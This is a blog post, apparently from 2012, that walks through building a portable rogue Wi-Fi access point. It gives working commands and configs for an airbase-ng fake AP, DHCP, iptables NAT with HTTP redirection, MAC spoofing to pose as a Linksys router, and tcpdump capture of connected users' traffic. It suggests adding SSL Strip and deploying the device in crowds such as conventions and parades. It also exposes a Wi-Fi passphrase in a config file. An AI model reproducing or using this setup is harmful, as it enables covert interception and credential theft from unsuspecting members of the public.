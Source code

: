 ```yaml
---
layout: splash
title: "Mobile Hacking"
date: 2012-05-16 00:00:00 -0700
categories: Blog Misc
permalink: /:title.html
---
```

<br />
I have always loved wireless security.  It is just such an easy target.  The only issue that I have had is that I was restricted to carrying around a laptop and I just didn’t like the idea of having to operate the software while I was out.  So I came up with this neat little COMPLETELY mobile wireless hacking/trap solution.  Here is what you will need.

## Equipment

1. an Alix board, CF, and enclosure
2. two ALPHA USB Wireless cards
3. a cell phone that you can tether to
4. mobile power solution

## NOTES

I have written this very quickly and this may not be entirely accurate.  Although the tests that I have done did work this post has been put together using loose notes that I made through my testing.  I may (one day) return to this and tidy it up and add more detail, however I set out to do what I wanted and I wish to move on to newer projects.

## Instructions
1.     To start build your Alix system.  I built mine with Debian and I found a GREAT tutorial on how to get it loaded on a CF for your Alix board here -> http://www.youtube.com/watch?v=6VPsgR4pMik  Install the most basic packages to to run the system, we will add the other stuff later.
2.     Once you have Debian installed on the CF and the board put together go ahead and start  it up.  Connect to the Alix board with a serial connection using 38400 baud, or 9600 if you didn’t change it in the last step.
3.     Log in to Debian using root and your password
4.     rm -f /etc/udev/rules.d/*_persistent-net.rules
5.     rm -f /etc/udev/rules.d/*_persistent-net-generator.rules
6.     reboot and connect the two USB WLAN cards
7.     Once the system is back up and running log in again with root
8.     install the following packages using the next command
9.     apt-get install wpasupplicant bridge-utils wireless-tools tcpdump ssh
10.    change the file /etc/network/interfaces to look like this (obviously use your wlan interfaces)
```
# Used by ifup(8) and ifdown(8). See the interfaces(5) manpage or
# /usr/share/doc/ifupdown/examples for more information.
auto lo
iface lo inet loopback
allow-hotplug eth0
iface eth0 inet dhcp
iface wlan1 inet dhcp
wpa-ssid "iPhone"
wpa-mode managed
wpa-conf /root/Rogue-Sniff/conf/iphone.conf
wpa-psk nodule5958
```
11.    Now we will need to install a bunch more stuff to get the necessary tools running
12.    apt-get install apt-get install build-essential libssl-dev subversion check install iw
13.    svn co http://trac.aircrack-ng.org/svn/trunk aircrack-ng
14.    Make, check install, and then run airodump-ng-oui-update
15.    Time to get the FakeAP up and running
16.    apt-get install dhcp3-server
17.    update-rc.d sic-dhcp-server remove
18.    cp /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.bak
19.    vi /etc/dhcp/dhcpd.conf and make it similar to this
```
ddns-update-style ad-hoc;
default-lease-time 600;
max-lease-time 7200;
subnet 10.1.2.0 netmask 255.255.255.0 {
option subnet-mask 255.255.255.0;
option broadcast-address 10.1.2.255;
option routers 10.1.2.1;
option domain-name-servers 8.8.8.8;
range 10.1.2.100 10.1.2.150;
}
```
20.    airmon-ng start wlan0
21.    airbase-ng -e “ESSID” -c 9 mon0
22.    ifconfig at0 up
23.    ifconfig at0 10.1.2.1 netmask 255.255.255.0
24.    route add -net 10.1.2.0 netmask 255.255.255.0 gw 10.1.2.1
25.    dhcpd -cf /etc/dhcpd/dhcpd.conf -pf /var/run/dhcpd.pid at0
26.    Now you have an AP up and running for the sniffing but you know no one will use it unless you have it providing internet access
27.    Connect the Debian box to your cell phone (tethering) so that you can provide internet access to others on the go
28.    Create the file iPhone.conf and put the WPA/WPA2 settings in to tether to your phone
```
network={
ssid="iPhone"
key_mgmt=WPA-PSK
psk=(put your hex in here -> wpa_passphrase [SSID] [passphrase])
}
```
29.    Test out the connection by running the following
30.    wpa_supplicant -i wlan1 -B -c iphone.conf
31.    Get IP Tables running by creating the following script
```
#!/bin/sh
PATH=/usr/sbin:/sbin:/bin:/usr/bin
#
# delete all existing rules.
#
iptables -F
iptables -t nat -F
iptables -t mangle -F
iptables -X
# Always accept loopback traffic
iptables -A INPUT -i lo -j ACCEPT
# Allow established connections, and those not coming from the outside
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -m state --state NEW -j ACCEPT
iptables -A FORWARD -i wlan1 -o at0 -m state --state ESTABLISHED,RELATED -j ACCEPT
# Allow outgoing connections from the LAN side.
iptables -A FORWARD -i at0 -o wlan1 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp -i at0 --destination-port 80 -j REDIRECT --to-port 8080
# Masquerade.
iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
# Don't forward from the outside to the inside.
iptables -A FORWARD -i wlan1 -o wlan1 -j REJECT
# Enable routing.
echo 1 > /proc/sys/net/ipv4/ip_forward
```
32.    If that is all working for you create a bash script with the following (with values that will work for your network)
```
#! /bin/bash
# bring up the rogue and start sniffing
cd /
# change the mac to a Linksys AP
/usr/bin/macchanger --mac=00:06:25:3E:BD:93 wlan0
/usr/bin/macchanger -r wlan1
echo "connecting to phone"
/sbin/wpa_supplicant -i wlan1 -B -c /root/iphone.conf
sleep 45
echo "getting ip address"
/sbin/dhclient wlan1
/usr/local/sbin/airbase-ng --essid hotspot -c 11 wlan0 &
sleep 15
/sbin/ifconfig at0 10.1.1.2 netmask 255.255.255.0
/sbin/route add -net 10.1.1.0 netmask 255.255.255.0 gw 10.1.1.2
/sbin/ifconfig at0 up
sleep 5
/usr/sbin/dhcpd -cf /etc/dhcp/dhcpd.conf
./root/Rogue-Sniff/iptables.sh
tcpdump -i wlan1 -s 0 -e -vv -XX link[25] != 0x80 -w /root/Rogue-Sniff/capture
```
33.    Add a line to execute this script at startup with rc.local
34.    Now that your CF card is at a point where you want it pull it off the Alix board and DD it to another Linux box so that you will never have to go through all this again.
35.    Connect your portable power source and out the door you go!  I used two 9V batteries that do power the setup, but I highly doubt that it would last long.

## Going Further

1.     When acting as an AP for people the main point here is to sniff traffic and record it.  What point would it be to record encrypted traffic?  Go a little further with this and throw SSL Strip into the mix!
2.     Very Useful Applications (if you have room on the CF)
  * python
  * python-twisted-web
  * kismet
  * nmap
  * telnet
  * fping
  * smbclient
  * curl
  * links
  * dnsutils
  * Tenable Nessus
  * Metasploit Framework
3.     The best places to take advantage of wireless networks is in highly populated areas that do not have hotspots.  Think of a convention or parade.  Some people really what to get on the net, and you could even highjack their broadcasts … say they are probing for “linksys” why not rename your SSID?

## Images of My Project
![alt text](/blog/assets/images/mobile/1.png "1")

![alt text](/blog/assets/images/mobile/2.png "2")

![alt text](/blog/assets/images/mobile/3.png "3")

![alt text](/blog/assets/images/mobile/4.png "4")